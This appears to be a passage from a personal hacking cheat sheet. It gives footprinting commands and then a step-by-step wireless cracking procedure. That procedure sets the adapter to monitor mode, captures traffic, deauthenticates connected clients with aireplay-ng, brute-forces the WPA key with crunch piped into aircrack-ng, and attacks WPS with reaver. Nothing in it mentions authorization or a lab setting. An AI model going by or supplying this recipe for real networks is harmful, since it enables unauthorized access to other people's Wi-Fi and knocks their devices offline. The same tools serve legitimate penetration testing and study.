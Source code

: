 		ALSO: Using a (trusty) script with nmap:
			~nmap --script firewall-bypass <target>

	* Footprinting with Nslookup
		~nslookup scanme.nmap.org

	* Footprinting with Curl
		~curl ipinfo.io/74.207.244.221

---------------------------------------------------------------------

## WIRELESS HACKING ##
	WEP	unsafe, and rare to find!
	WPA	safe, and most common!

	Tools:	aircrack-ng
			reaver

	* Using Aircrack:
	1) Change Promiscuous mode to Monitor mode
		~ifconfig wlan0 down
		~iwconfig wlan0 mode monitor
		~ifconfig wlan0 up
	NOTE: Changing it back to Promiscuous mode
		~ifconfig wlan0 promisc
	2) Check which programs may cause trouble with your adapter
		~airmon-ng check wlan0
	or
		~airmon-ng start wlan0
	3) Kill all of the processes (NetworkManager, dhclient, ...)
		~kill <PID>
	4) Check for all the wi-fi networks available
		~airodump-ng wlan0
	5) Scan the selected channel (otherwise it will keep changing!)
		~airodump-ng -c <channel> -w SCAN_test --bssid <MAC> wlan0
	NOTE: You can also change your own channel
		~iwconfig wlan0 channel <number>
	6) Send a DeAuthentication request
		~aireplay-ng -0 0 -a <MAC> wlan0
	NOTE: Must have at least ONE device connected to it!
	7) Cracking the code with CRUNCH (dictionary local attack!)
		~crunch <length> <length> -t <pattern> 1234567890 | aircrack-ng -w <filename.cap> -e <ESSID>
		Options: @ lowercase characters
			, uppercase characters
			% numbers
			^ symbols
		Guess: 	,@@eir@%%%
		Pass:	Madeira123
	or
		~crunch <length> <length> -t <pattern> -f /path/to/charset.lst <charsetname> | aircrack-ng -w <filename.cap> -e <ESSID>

	* Using Reaver
		~reaver -i wlan0 -b <MAC> -vv
